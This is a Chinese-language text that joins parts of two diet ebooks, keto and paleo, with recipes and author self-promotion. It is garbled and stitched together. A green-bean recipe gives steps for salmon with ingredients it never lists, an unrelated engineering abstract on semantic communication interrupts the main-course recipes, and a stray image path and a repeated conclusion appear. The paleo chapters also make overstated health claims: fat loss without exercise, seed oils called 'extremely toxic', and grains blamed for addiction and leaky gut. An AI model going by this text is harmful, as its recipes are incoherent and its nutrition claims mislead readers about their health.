在碗中混合猪肉末、番茄酱、鸡蛋、盐、胡椒、甜椒粉和炒过的洋葱。

将混合物分成 12 个球，然后压中间并压平，使其看起来像贝果。

将猪肉贝果摆放在准备好的烤盘上，烘烤 40 分钟，或至变硬。

将烤盘放在金属架上稍凉。温热时食用最佳。

### 西兰花奶酪汤

**配料**

- 2 杯西兰花小朵
- 2 杯水
- 1/2 杯软化奶油奶酪
- 1/2 杯鸡汤
- 1/4 杯重奶油
- 1 茶匙盐
- 适量胡椒
- 1 杯切达奶酪

**做法**

将西兰花小朵蒸至嫩软。将所有奶油奶酪、1/2 杯西兰花、所有重奶油和 1/2 杯水放入搅拌机中。混合至形成顺滑混合物。

将此混合物倒入大平底锅，然后加入剩余的西兰花、鸡汤和水。混合至所有原料融合。用中火煮至微沸。

当平底锅加热后加入切达奶酪，然后混合至融化并与混合物融合。

加入适量胡椒。

### 粥

**配料**

- 1 1/2 汤匙磨碎山核桃
- 1 汤匙亚麻籽粉
- 1 1/2 汤匙碎椰肉
- 1/3 杯沸水
- 适量一撮盐
- 适量 Splenda 或你喜欢的甜味剂
- 2 汤匙重奶油
- 少许肉桂（可选）

**做法**

将亚麻籽粉、椰子和山核桃放入碗中，然后加入盐。搅拌混合至所有原料融合。

加入沸水，搅拌至融入混合物。放置一两分钟，然后加入甜味剂和奶油。


### 奇亚籽酸奶芭菲

#### 配料

- 2杯全脂酸奶
- 4汤匙奇亚籽
- 1/2茶匙肉桂粉
- 1/2杯无糖杏仁奶
- 4汤匙杏仁片

#### 做法

在碗中混合杏仁奶、奇亚籽和酸奶。

将一层混合物倒入2个玻璃杯中，然后分别加入一半的杏仁和肉桂。重复操作，直到每个杯子各有3层。

将玻璃杯放入冰箱约12分钟，使芭菲变稠。冷藏后食用。

### 早餐砂锅

#### 配料

- 4个鸡蛋
- 1/2磅香肠
- 1/2杯浓味切达干酪碎
- 1杯淡奶油
- 1/2颗花椰菜，切碎
- 1/2茶匙干芥末
- 1/2茶匙海盐

#### 做法

将烤箱预热至350华氏度。在砂锅菜盘上喷防粘烹饪喷雾。

将不粘煎锅置于中高火上，把香肠煎至变色并捣碎。多余的油脂留作其他食谱使用。

将香肠刮入碗中，然后拌入切碎的花椰菜、淡奶油、奶酪、盐和芥末。放置一旁稍微冷却。

在另一个碗中打散鸡蛋，然后拌入香肠混合物。

将混合物倒入准备好的砂锅菜盘。烘烤25分钟，或直至表面金黄。

放在金属网架上稍微冷却，然后即可食用。

## 第 4 章：主打菜肴

### 芝士鸡块

**配料：**

- 4块散养鸡胸肉
- 2杯马苏里拉奶酪
- 2汤匙猪皮脆
- 2茶匙干牛至，分次使用
- 1/2杯亚麻籽粉
- 1杯帕玛森奶酪
- 1茶匙海盐
- 1茶匙现磨黑胡椒
- 1/2茶匙红辣椒碎
- 1/2汤匙蒜粉
- 3茶匙红椒粉
- 2个大鸡蛋
- 3茶匙鸡汤
- 1杯橄榄油，分次使用
- 2杯无添加糖番茄酱
- 1茶匙蒜末

**做法：**

将猪皮脆、亚麻籽粉、帕玛森奶酪、2汤匙牛至、盐、胡椒、红辣椒碎、蒜粉和红椒粉放入食品加工机或大功率搅拌机中。搅打至完全混合，然后转移到碗中。

用肉锤将鸡胸肉敲至约1/2英寸厚。两面用盐和胡椒调味，然后切成一口大小的块，放置一旁。

在碗中打散鸡蛋，然后搅入鸡汤。放置一旁。

将烤箱预热至400华氏度。在砂锅菜盘上喷防粘烹饪喷雾。

将平底锅置于中低火上，加入1/2杯橄榄油、番茄酱、蒜末和剩余的牛至。煮15分钟，偶尔搅拌。

将每块鸡胸肉蘸上鸡蛋混合物，然后在芝士混合物中裹匀。

将剩余的橄榄油在厚底煎锅中用中低火加热。把鸡块煎至金黄。放在厨房纸上沥油。

将鸡块放入砂锅菜盘，在上面浇上酱汁。把所有马苏里拉奶酪撒在全部食材上，然后烘烤10分钟，或直至奶酪融化。趁热食用。

### 豆角配菜

**配料：**

- 1 1/2汤匙黄油
- 2瓣大蒜，切末
- 1/2汤匙橄榄油
- 1/2磅青豆
- 1/4茶匙海盐
- 一小撮现磨黑胡椒

**做法：**

在碗中混合辣椒粉、孜然、盐、红椒粉、甜菊糖、黑胡椒和干芥末。加入少许肉桂粉并充分搅拌。放置一旁。

将不粘煎锅置于中火上，加热椰子油至少3分钟。

同时，将每片三文鱼柳的两面抹上第戎芥末，然后将辣椒混合香料压在两面。

将火调至中高火，把三文鱼放入煎锅中煎2分钟，然后翻面。将火调至中火，再煎8分钟，或直至鱼肉能轻松剥落。

同时，将煎锅置于中火上，把黄油和橄榄油融化在一起。将大蒜炒1分钟，然后拌入青豆，并用盐和胡椒调味。将火调至中低火，盖上锅盖煮8分钟。偶尔搅拌以防烧焦。

将三文鱼摆入盘中，把青豆放在旁边。立即食用。

### 鸡肉沙拉

#### 配料

- 2杯嫩菠菜
- 1/2个牛油果
- 1/2块鸡胸肉
- 1汤匙 Peri Peri 酱
- 1片低钠培根

#### 做法

将平底锅用中火加热，把培根煎至变褐且酥脆。

烹饪时把鸡胸肉切成等大的块。将鸡胸肉片放入培根油脂中，一面煎1分钟，然后翻面再煎约5分钟。在5分钟结束前，将牛油果和培根切成小块。

将牛油果和嫩菠菜放入大碗中，然后加入 Peri Peri 酱和培根。

### 鸡肉咖喱

#### 配料

- 3磅鸡腿肉
- 1杯水
- 7盎司一包印度奶酪
- 1/2杯淡奶油
- 1杯碎番茄
- 1汤匙橄榄油
- 4汤匙黄油
- 1 1/2茶匙蒜泥
- 2茶匙椰子油
- 1茶匙芫荽粉
- 1 1/2茶匙姜泥
- 1茶匙盐
- 1茶匙印度综合香料
- 1茶匙红椒粉
- 1茶匙现磨黑胡椒
- 1/2汤匙红辣椒粉
- 1/2茶匙克什米尔辣椒粉
- 3枝香菜

#### 做法

将烤箱预热至375华氏度。

用橄榄油、盐和胡椒给鸡腿肉调味，然后放在烤盘上烤约25分钟。

将印度奶酪切成小块，放置一旁。

用中火预热锅，加入椰子油和黄油。等黄油变成棕色后，加入蒜泥和姜。炒约2分钟，然后加入番茄。

混合印度综合香料、芫荽粉、红椒粉、盐和红辣椒粉，拌匀并煨煮至表面浮油。慢慢拌入印度奶酪，然后加水，煨煮5分钟。

用中低火搅拌混合物，让它煨煮至再次沸腾。

鸡肉烤好后，离火并去骨，然后蘸入酱汁中拌匀。再煨煮5分钟，然后用香菜点缀并趁热食用。

## 第 5 章：超级零食

### 炸牛油果角

**配料：**

- 2个鸡蛋
- 2个牛油果
- 2汤匙淡奶油
- 1/2茶匙海盐
- 2/3茶匙现磨黑胡椒
- 1/3杯猪皮脆碎
- 1/2杯帕玛森奶酪碎
- 1/2茶匙蒜粉
- 1/3茶匙洋葱粉
- 橄榄油，用于油炸

**做法：**

往煎锅中倒入约1 1/2英寸深的油。置于中低火上，预热至375华氏度。

同时，在碗中把鸡蛋和淡奶油打匀。

在盘子里混合猪皮脆、蒜粉、洋葱粉和帕玛森奶酪。

将牛油果切成1/2英寸厚的角，并用盐和胡椒调味。

将牛油果角蘸上鸡蛋混合物，然后在芝士混合物中裹匀。确保牛油果角完全裹上。

小心地将牛油果角放入煎锅中的热油里；不要放得太满。只炸1分钟，或直至金黄。用漏勺捞出炸好的牛油果角。

将牛油果角放在厨房纸上彻底沥油。食用前放置2分钟。

### 蒜香芜菁泥

**配料：**

- 6个芜菁
- 1/2杯淡奶油
- 3瓣大蒜，切末
- 1/4杯融化黄油
- 海盐
- 现磨黑胡椒

**做法：**

将芜菁放入加盐的水中煮至非常软烂。

将芜菁彻底沥干，然后转移到碗中。充分捣碎，然后拌入淡奶油、大蒜、黄油、盐和胡椒。温热时食用最佳。


### 鸡蛋松饼

#### 食材

- 3个鸡蛋
- 1/4杯切片菠菜
- 3片无硝酸盐火鸡薄片
- 马苏里拉奶酪
- 1 1/2汤匙红椒
- 1汤匙切碎的红洋葱
- 新鲜罗勒（可选）
- 盐和胡椒

#### 做法

- 将烤箱预热至350华氏度。
- 将红洋葱、罗勒、菠菜和红椒切片，并将马苏里拉奶酪擦成丝。
- 在不粘松饼烤盘上喷橄榄油喷雾，轻轻将火鸡片放入其中一个杯状格中，让它铺在底部和侧边，并撑开杯状格。
- 打一个鸡蛋，倒入装有火鸡的杯状格中。
- 在鸡蛋上加入少许切好的红洋葱、菠菜、红椒和奶酪。
- 加入新鲜罗勒，并在鸡蛋上撒少许胡椒和盐。
- 将松饼烤盘放入烤箱，烘烤至鸡蛋凝固。如果你想要蛋黄流心，十分钟应该就够了；如果想要更熟一些，至少需要15分钟。

## 结论

读到这里，我清楚地看出你有动力开始健康生活之旅。生酮饮食是一个很棒的起点，我知道你会获得巨大的成果。这种饮食是一种极其简单高效的减重减脂方式，并能将你的身体变成健康机器。你不仅会减重，这种饮食还有大量其他健康益处。另一个好处是它能提高身体将脂肪转化为能量的能力，这会提升你的能量水平，让你感觉很棒。

正如我之前所说，通过运用本书中谈到的内容，我完全相信你会实现健康目标，过上更好的生活。

感谢你阅读本书。希望你能从中获得价值，我确信它将使你能够做出更健康的选择，从而实现你期望的减重目标。

最后，如果你喜欢本书，我想请你帮个忙：你能否好心在亚马逊上为本书留下评论？不胜感激！点击下方链接前往亚马逊评论页面！

[点击此处前往亚马逊评论页面！](#)

我想尽可能触达更多人，更多评论将帮助我实现这一目标。

另外，请务必给我的*Facebook*页面点赞，并加入关于健康和我最新书籍的讨论！

谢谢，祝你好运！

如果你喜欢本书，也请看看系列中的下一本书……

但是等等，如果你还没有观看关于如何通过这个3周饮食计划减重的重要视频，你可能想去看一下。[点击此处观看。](#)

## 额外福利：获取我提供的更多免费视频和书籍！

感谢你阅读我的书！希望你能从中获得很棒的价值。我想通过赠送更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下方链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你获得的一切都会对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 关于我最喜欢的健康相关产品的信息
- 以及更多！

[点击此处获取所有这些信息！](#)

如果你还没有，请务必看看我的新网站 *KindleBookSpot.com*。这是我一直以来在做的一个新项目，我真心希望它对读者有价值。我建立这个网站，是因为我想给你们一个更简单的方式，在一个地方找到打折的热门Kindle电子书。以下是我的网站的一些详情：

- 畅销免费Kindle电子书列表
- 折扣小说和非小说类书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书

这个网站不仅面向读者，也是新锐作者在成为畅销书之前推广新书的地方。所以，如果你想推广你自己的书，请看看我的网站 *KindleBookSpot.com*。

我希望这个网站对你有用，也希望能在那儿见到你！

**KindleBookSpot.com。**

# 原始人饮食挑战：用这个易于遵循的计划和减脂食谱立即减重

*底部免费报告中包含额外内容*

*另外可在 [KindleBookSpot.com](https://KindleBookSpot.com) 获取更多免费和特价书籍*

## 目录

- 引言
- 第一章：原始人饮食……或者我该说，穴居人饮食
- 第二章：绝佳食材
- 第三章：丰盛早餐
- 第四章：上等沙拉
- 第五章：超强主菜
- 结论

## 引言

如果你正在寻找减重、减脂和提升能量水平的方法，你来对地方了。原始人饮食是一种低碳水饮食，含有大量蛋白质和大量蔬菜。这种饮食有时被称为“穴居人饮食”，因为它基本上就是穴居人吃过的任何东西。这种饮食如此有效，是因为它迫使你的身体燃烧脂肪来供能，而不是燃烧来自碳水化合物的葡萄糖。

这是一种必须尝试的饮食，我保证它会帮助你实现目标，并让你在过程中感觉很棒。

如果你的目标是减重、保持体重并提升能量水平，你需要像穴居人那样吃全天然、未加工的食物。穴居人没有种植谷物或制作乳制品的技术，那我们为什么要吃这些呢？采用穴居人饮食不仅会帮助你过上健康而充实的生活，你还能减掉脂肪，拥有你一直想要的外形。

本书有味道不可思议的食谱，它们易于制作，并将带你踏上健康生活之旅。我收录了我最喜欢的早餐、零食和晚餐食谱。有了本书，你将毫无问题地实现你想要的任何健康目标，而且你永远不需要跳过餐食或像小鸟一样吃得很少。减重从未如此轻松、有趣！

原始人饮食的主要好处之一是它能让你在更长时间内保持饱腹感，而这是人们避开各种饮食的最大原因之一。这种饮食不仅会让你有饱腹感，你吃的食物还会帮助你燃烧不需要的脂肪，甚至不用锻炼！

低碳水饮食会帮助你避开“坏”脂肪，这些脂肪容易附着在腹部器官上，而这是最难减掉的一些脂肪。这些脂肪还会对你的身体造成长期负面影响，所以现在消除它们极其重要。

我们现在将开始我们的原始人饮食之旅，我完全相信，如果你开始这种饮食，你将获得巨大的健康益处，也会对自己感觉好得多。

别忘了在底部查看我最喜欢的饮食之一：

**了解我用来通过3周饮食快速减掉顽固多余脂肪的策略。**

*前往底部获取更多信息，并领取你的免费报告和额外内容！*

## 开始之前……额外福利：获取我提供的更多免费视频和书籍！

感谢你阅读我的书！希望你能从中获得很棒的价值。我想通过赠送更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下方链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你获得的一切都会对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 关于我最喜欢的健康相关产品的信息
- 以及更多！

[点击此处获取所有这些信息！](#)

## 第 1 章：原始人饮食……或者我该说，穴居人饮食

一段时间以来，人们一直对这样的饮食持怀疑态度，这与不了解它的真正含义有关。原始人饮食的整个理念是只吃我们的身体已经适应去吃的东西。这意味着所有未加工或未经过基因改造的天然食物。我们的身体显然还没有适应吃谷物、乳制品和加工食品。这么多人乳糖不耐受或无法消化谷物，就说明了这一点。

既然人类吃肉、蔬菜和水果已经这么久，很容易说我们的身体已经习惯了这些。相反的情况才成立：人类食用精制白面粉、高果糖和改性食品的时间相对较短。

另一个表明我们的身体尚未适应某些食物的例子是麸质。有大量的人无法消化麸质和其他谷物，那么这是否意味着我们尚未适应？

试试这种饮食，我保证你永远不会回头。

以下是关于原始人饮食方式的其他一些误区。

### 我必须戒掉所有碳水化合物！

戒掉碳水化合物的想法是对原始人饮食的一个误解。虽然大多数人试图减少他们吃的碳水化合物数量，但更重要的想法是减少某一类碳水化合物。遵循原始人饮食的人实际上确实摄入了足够数量的碳水化合物。原始人饮食者从蔬菜、坚果和种子中获取碳水化合物，而不是从像意大利面这样营养贫乏的白色谷物中获取。

### 这会非常难


大多数人认为如果不能吃谷物，生活将难以置信地艰难。这在开始时可能是真的，但随着时间的推移你会忘记它们。你必须明白，谷物，尤其是小麦，营养不足，只会导致日后的健康问题。

吃太多谷物可能导致的一些健康问题有：肥胖、糖尿病、肠漏，甚至成瘾。这听起来像是你愿意放弃谷物的理由吗？

### 我想吃多少脂肪就吃多少，这怎么对我有好处？

这再次归结为质量重于数量。高质量的脂肪可以大量摄入而不会出现真正的健康问题。这对于反式脂肪或其他加工过的脂肪就不成立。黄油、高质量的动物脂肪、牛油果、椰子和橄榄油以及鸡蛋中的脂肪会为你提供极佳的营养和健康。

避免任何精炼、加工和氢化的东西，如葵花籽油、棉籽油或菜籽油。这些对身体极其有毒，因为它们富含引起炎症的 omega-6 脂肪酸。

### 先不吃碳水…现在不吃乳制品？

是否吃乳制品的想法真的取决于你的个人选择。如果你乳糖不耐受，那么显然要避免乳制品，但你可以坚持使用无激素、草饲的乳制品。重要的是不要吃太多乳制品，所以不要把它作为日常餐的一部分，尤其是如果你目标是减肥的话。

## 第 2 章：不可思议的食材

这里我会为你提供一份需要囤积的食材清单。有些可能对你来说是新的，但不会太久：

- 冷冻高汤（鸡肉、牛肉或蔬菜）
- 干香草和新鲜香草及香料（我最喜欢的是牛至、姜黄和肉桂）
- 椰奶和椰奶油
- 椰子油、橄榄油、牛油果油
- 新鲜柠檬
- 新鲜大蒜和生姜
- 牛油果
- 第戎芥末
- 蜂蜜
- 碎番茄或番茄酱
- 希腊酸奶（蛋白质的极佳来源）
- 一块 100% 黑巧克力（用于作弊零食）
- 充足的高品质黄油

## 第 3 章：早餐拼盘

### 牛油果培根煎蛋卷

**食材**

- 3 片培根
- 2 Tbsp 切碎的红洋葱
- 1 个牛油果
- 1 Tbsp 切碎的新鲜香菜
- 依口味添加辣酱
- 3 个鸡蛋

**做法**

将培根煮至酥脆。将牛油果切半并取出果核。将果肉挖入碗中。

将其捣碎，但不要捣得太细，因为食物需要一点口感。

在牛油果中加入香菜和洋葱。培根煮好后，从锅中取出，沥干并将其捣碎或压碎混入混合物中。轻轻搅拌整个混合物。将鸡蛋倒入碗中，混合并做成两个煎蛋卷。将一半的牛油果混合物放入一个煎蛋卷中。你可以加入辣酱调味。

### 芥末炒蛋

**食材**

- 3 片生培根
- 3 个鸡蛋
- 1 tsp 辣根

**做法**

将平底锅置于中火。把培根放入平底锅。煎至酥脆，煮好后沥干并捣碎。将所有鸡蛋与辣根一起打匀。

留下 1 汤匙油脂来煎蛋。将鸡蛋放入平底锅，煮至几乎凝固。

加入培根碎并搅拌混合物。煮约 3 分钟后上桌。

### 麦内门

**食材**

- 1/2 个红洋葱，切丁
- 1 个中等大小的番茄，切丁
- 1 Tbsp 橄榄油
- 1 瓣大蒜，压碎
- 1/4 tsp 孜然粉
- 1/2 tsp 黑胡椒
- 1/4 tsp 姜黄
- 1/4 tsp 红辣椒碎
- 2 个鸡蛋
- 1/4 tsp 盐
- 1 Tbsp 切碎的新鲜欧芹

**做法**

在中低火的平底锅中用橄榄油炒洋葱、胡椒和番茄。压碎大蒜放入平底锅中然后搅拌。继续烹饪并经常搅拌。蔬菜烹饪时，将鸡蛋放入碗中打匀。当蔬菜快煮好时，倒入鸡蛋并煮至凝固。舀到盘子上，用欧芹装饰后上桌。

### 培根菠菜焗蛋

**食材**

- 2 个大鸡蛋
- 1 3/4 cups 袋装婴儿菠菜
- 4 Tbsp 重奶油
- 3 片苹果木熏培根

**做法**

将烤箱预热至 400°F。在大平底锅中用中火煮培根至酥脆。移到纸巾上沥干油脂。将菠菜加入锅中并撒上胡椒。中火翻炒 1 分钟，然后转移到滤网中，放在碗上沥干。捣碎培根。

取菠菜然后撒上培根，确保均匀分配。用勺子塑形并在中心挖一个洞。敲入 1 个鸡蛋，确保蛋黄完整。每只鸡蛋上放 1 汤匙奶油，然后撒上盐和胡椒，烘烤鸡蛋直至蛋白刚凝固但蛋黄仍湿润，然后上桌。

### 香肠鸡蛋塔可

**食材**

- 4 个大鸡蛋
- 4 根青葱，切片
- 1 cup 刨丝切达奶酪（草饲）
- 4 张亚麻籽玉米饼
- 辣酱或莎莎酱
- 3/4 cup 新鲜香肠
- 4 Tbsp 切碎的新鲜香菜，分开使用
- 酸奶油（可选）

**做法**

用橄榄油刷一个大不粘锅，然后直接在电炉上炙烤玉米饼，直到斑点变黑，同时用钳子翻转，然后将玉米饼以单层排列在锅中，每张玉米饼涂抹 1/4 cup 刨丝奶酪并放一旁。在中等碗中将 2 汤匙香菜和鸡蛋打匀，然后用胡椒和盐调味。在中火的中等不粘锅中煮香肠至熟，用勺背压碎香肠并加入青葱翻炒。加入鸡蛋混合物并搅拌。煮至几乎凝固然后将鸡蛋混合物从火上移开。

在平底锅中用大火煮玉米饼直至底部酥脆。将鸡蛋混合物分到玉米饼中，然后撒上剩余的香菜，将每张玉米饼对折并上桌。

## 第 4 章：优质沙拉

沙拉对于遵循古饮食的人来说是一顿很棒的餐，因为它们可以高度定制。它们永远不会变得无聊，因为种类繁多，而且制作非常简单。以下是一些很棒的食谱。

### 蜂蜜芥末科布沙拉

**食材**

- 2 个水煮蛋，切成四分之一
- 2 cups 切碎的混合生菜叶
- 1 cup 煮熟并切丁的鸡胸肉
- 1/2 cup 酥脆碎培根
- 1/2 cup 碎蓝纹奶酪
- 1 个番茄，切丁
- 1/2 个洋葱，切丁
- 1/2 个黄瓜，切丁

**调料：**

- 2 tsp 第戎芥末
- 2 tsp 蜂蜜
- 1 瓣大蒜，切碎
- 盐和胡椒
- 1 Tbsp 切碎的欧芹

**做法**

在一个大浅碗中，首先铺上混合生菜叶作为底。然后，将其他沙拉食材以条纹状层叠在生菜上。最后，将调料食材混合在一起，打匀并沿着与条纹相反的方向淋在沙拉上，形成漂亮的格子图案。你可以 optionally 在上面加一些切碎的坚果混合物，增加一点脆感。

### 芬芳牛油果沙拉

**食材**

- 1 个牛油果
- 1 个薄切茴香球茎
- 1/2 个英式黄瓜，切楔形
- 1 Tbsp 苹果醋
- 一撮甜椒粉
- 盐和胡椒
- 1 Tbsp 橄榄油
- 1 tsp 芝麻

**做法**

确保茴香球茎切得尽可能薄——如果可能，使用切片机。只有非常嫩的块才适合这道沙拉，所以如果能买到婴儿茴香球茎就更好了。

将茴香与切碎的牛油果混合，并用油、醋、盐、胡椒和甜椒粉制作调料。沙拉可以在上桌前“腌制”一段时间。

在上面撒上芝麻。

### 草莓菠菜沙拉

**食材**

- 1 把嫩菠菜或婴儿菠菜叶
- 2 cups 草莓——切得很薄
- 2 个煮熟的鸡胸肉
- 1/2 cup 非常酥脆并碎的培根
- 1 Tbsp 蜂蜜
- 1 Tbsp 橄榄油
- 1 Tbsp 柠檬汁

**做法**

将所有食材混合。立即上桌以避免沙拉变软。用新鲜三色堇花装饰看起来很漂亮——非常适合夏季烧烤。


### 红洋葱木瓜沙拉
#### 配料
- 1个中等大小橙肉木瓜，去籽
- 3/4个切成细丝的红洋葱
- 1/2杯碎菲达奶酪
- 黑胡椒和盐
- 1汤匙鲜榨青柠汁
- 1汤匙橄榄油

#### 做法
将木瓜切成一口大小的方块，然后加入切得非常非常薄的红洋葱。将菲达奶酪捏碎撒在上面。

用青柠汁和橄榄油调成沙拉汁，并按口味加入盐和黑胡椒。上桌前可将沙拉静置片刻，让风味融合。搭配几枝新鲜薄荷食用也很美观。

### 烤牛肉蓝莓罗勒沙拉
#### 配料
- 1杯新鲜蓝莓
- 1块煮熟的西冷牛排，切薄片
- 2把完整罗勒叶
- 3杯切碎的生菜
- 1个切成细丁的苹果
- 盐和胡椒
- 1/4杯希腊酸奶
- 1汤匙橄榄油
- 1汤匙柠檬汁
- 1/4茶匙磨碎的柠檬皮屑
- 1/2杯切碎的碧根果

#### 做法
将牛肉煮熟并切薄片，然后放凉。把生菜、罗勒和蓝莓放入碗中，与其余配料一起拌匀。尽量将配料切成大致相同的大小，使沙拉外观均匀。

将沙拉汁配料（橄榄油、酸奶和柠檬汁）混合，淋在沙拉上。把牛肉片呈扇形铺在沙拉上，立即食用。

### 青酱杏仁鸡肉沙拉
#### 配料
- 2块煮熟并切片的鸡胸肉
- 1/2杯熟培根碎
- 1个切碎的番茄
- 1/2根切碎的黄瓜
- 2汤匙现做罗勒青酱
- 盐和胡椒
- 3杯混合生菜叶
- 1汤匙烤松子
- 3汤匙杏仁片
- 1汤匙蜂蜜
- 1汤匙柠檬汁
- 1汤匙橄榄油
- 1汤匙洋葱丁
- 1汤匙欧芹碎

#### 做法
将鸡肉、培根、生菜叶、番茄和黄瓜混合制成沙拉。用蜂蜜、橄榄油、柠檬汁、洋葱和欧芹制作沙拉汁。将它们搅打均匀后拌入沙拉。把沙拉摆在大餐盘上，舀上新鲜罗勒青酱，再撒上杏仁片。立即食用。

### 亚洲胡萝卜沙拉
#### 配料
- 3根擦成丝的胡萝卜
- 香辣亚洲沙拉汁
- 1汤匙酱油
- 1汤匙香菜末
- 1汤匙洋葱末
- 1汤匙姜末
- 1汤匙塔巴斯科辣酱
- 1汤匙芝麻
- 1汤匙米醋
- 盐和胡椒（可选）

#### 做法
将沙拉汁配料搅打均匀，然后淋在胡萝卜丝上。简单却非常非常美味。

## 第 5 章：怪兽主菜

### 姜汁牛肉西兰花
#### 配料
- 2茶匙黑胡椒
- 2瓣大蒜，切末
- 2杯胡萝卜，切薄片
- 2茶匙现磨姜末
- 1汤匙亚麻籽粉
- 2汤匙椰子油（分次使用）
- 1根葱，切细丝
- 1/2杯低钠鸡汤
- 1磅小西冷牛排，切片
- 2颗西兰花，切成小朵
- 1/2茶匙红辣椒碎
- 柠檬汁
- 1/4茶匙海盐

#### 做法
在中高火下，用平底锅加热1汤匙椰子油和大蒜。加入西冷牛排和海盐翻炒，然后将牛排从锅中取出，放在一旁。倒掉锅中的汁水。

在另一个碗中，将柠檬汁、姜、黑胡椒、亚麻籽粉和红辣椒与鸡汤混合。将西兰花和胡萝卜加入锅中，然后倒入液体配料，翻炒裹匀。

煨至西兰花变软。将牛肉放回锅中。加入葱，继续煨至牛肉重新热透，然后食用。

### 牛肉蔬菜辣豆汤
#### 配料
- 5盎司瘦牛肉末
- 1个中等大小番茄
- 1/2汤匙干辣椒粉
- 2瓣大蒜，切碎
- 1汤匙伍斯特酱
- 2汤匙胡椒
- 7盎司罐装红腰豆
- 1个中等大小洋葱
- 4汤匙蘑菇
- 孜然、香菜和辣椒粉
- 6汤匙芹菜

#### 做法
煎牛肉末，注意倒掉多余的油脂。加入2瓣切碎的大蒜，稍微煎一下，再加入切碎的洋葱。加入其余切碎的蔬菜，再煮一会儿，然后加入去细籽的半干切碎辣椒。

加入各半茶匙孜然和香菜、辣椒粉以及一汤匙伍斯特酱。

加入切碎的番茄和罐装红腰豆，然后按需用盐和黑胡椒调味。煮1小时，趁热食用。

### 牛肉西葫芦
#### 配料
- 2杯水
- 1磅牛肉末
- 2根大西葫芦
- 1/2茶匙咖喱
- 1罐无盐番茄酱

#### 做法
将牛肉末煎至褐色，去除多余油脂。将西葫芦切成大块，煮至变软。将其与肉混合，加入水、香料和那罐番茄酱。

让其煮沸后转小火。静置几分钟，让香料入味，然后食用。

## 面向图像传输的多尺度自适应任务导向语义通信
为解决语义通信中不同尺度语义特征提取以及任务需求与传输资源不匹配的问题，提出了一种多尺度自适应任务导向语义通信系统（MSAT-OSC）。该系统由多尺度语义编码器、自适应特征选择模块和任务解码器组成。多尺度语义编码器由具有不同卷积核大小的多分支结构组成，以获取不同尺度的语义特征。自适应特征选择模块利用通道注意力机制，根据任务需求自适应地选择最相关的语义特征并传输，从而减少冗余信息。此外，设计了一种可扩展编码调制方案，根据信道条件自适应调整传输速率，实现任务性能与传输效率之间的权衡。仿真结果表明，与现有方法相比，所提方案在提高任务性能的同时有效降低了传输开销。

**索引词** — 语义通信，任务导向，多尺度，自适应传输。



### 烤鸡
#### 配料
- 1只散养鸡，去除内脏
- 2汤匙黄油
- 4瓣新鲜大蒜
- 你喜欢的香草
- 1/2个新鲜柠檬
- 盐和胡椒
- 橄榄油

#### 做法
烤鸡的做法数不胜数，但有时最简单的方法就是最好的。记住烤之前不要清洗鸡，但一定要尽量把鸡皮擦干——这样能让鸡皮酥脆。

将烤箱预热至350华氏度。

将鸡放入烤盘。用锋利的刀在鸡胸肉周围的鸡皮上切6到8个小口。在这些小口中塞入小块黄油、整瓣大蒜和干香草。尽量将它们均匀分布——黄油融化时会滋润鸡肉，让肉充满风味。

接下来，将半个柠檬以及一些香草和香料放入鸡腔内。

最后，用橄榄油涂抹整只鸡以使其滋润，并大量撒上盐和胡椒调味。

将鸡胸朝下放入烤盘，烤1小时，或烤至用叉子戳时汁水清澈（汁水略带粉色说明鸡还没熟）。

烤熟后，将鸡翻面，在热烤架下烤约10分钟，使鸡皮酥脆。

若想做成一顿完整的饭，可将一些红薯和胡萝卜煮至半熟，并浇上与鸡相同的香草和橄榄油。将它们放在鸡周围，在烤制过程中翻动几次。

切鸡前让鸡静置10分钟，然后与蔬菜和一杯白葡萄酒一起上桌。


### 鸡汤

适用于汤和炖菜。

配料：
- 1 只鸡骨架，大部分肉已去除
- 1 根切半的胡萝卜
- 1 根切半的芹菜梗
- 3 片月桂叶
- 黑胡椒粒
- 1 个洋葱
- 1 汤匙苹果醋
- 您喜欢的香料

说明：

找一个足够大的锅，能完全将鸡骨架浸没在水中。

加入水、所有蔬菜、醋（有助于从骨头中提取矿物质）和香料。煮沸后小火慢炖至少 2 小时，但不超过 4 小时。

如有必要，如果蒸发过多，可向锅中添加更多水。

完成后汤色呈金黄色，过滤出蔬菜和香料并丢弃骨头。它们应该非常脆弱，基本散开。

现在汤可以用来直接做任何种类的汤（需要先加盐），也可以冷冻在冰格中以便快速提味，或在冬季直接作为清淡的清汤饮用。如果汤不清晰也不用担心。汤表面形成胶质薄膜也不要惊慌——这表明你已成功提取营养，得到的是优质的高汤。

### 烤鸡

配料：
- 16 盎司冷冻无骨鸡胸肉
- 2 茶匙辣椒
- 2 茶匙孜然
- 1 个生切片青椒
- 2 汤匙橄榄油
- 1 罐切丁甜洋葱
- 1 杯生洋葱
- 4 张亚麻籽玉米饼

做法：

将鸡肉切成条。把洋葱和青椒切成条。

将其他所有原料混合搅拌。加入鸡肉、青椒和洋葱拌匀，使其均匀裹上料，然后将鸡肉混合物放入喷油的 13x9” 烤盘中烘烤，直至鸡肉熟透、洋葱熟软，大约 20-25 分钟。盛在亚麻籽玉米饼壳上食用。

### 芝麻鸡

配料：
- 4 汤匙低钠酱油
- 1 汤匙橄榄油
- 2 块鸡胸肉
- 1 汤匙芝麻
- 2 汤匙蜂蜜
- 2 杯熟西兰花

做法：

在小碗中混合酱油、蜂蜜和芝麻。蒸西兰花，置于一旁充分沥干，将鸡肉切成小块用橄榄油煎。把西兰花加入鸡肉的锅中，然后倒入酱汁。搅拌后与一些土豆一起食用。

## 结论

读到这里，我很清楚你有动力开始健康生活的旅程。古饮食法是一个很棒的起点，我知道你会获得巨大的成果。这种饮食是极其简单高效的减肥和减脂方式，能让你的身体变成健康机器。不仅会减肥，还有大量其他健康益处。另一个好处是它能改善身体将脂肪转化为能量的能力，从而提升你的能量水平，让你感觉很棒。

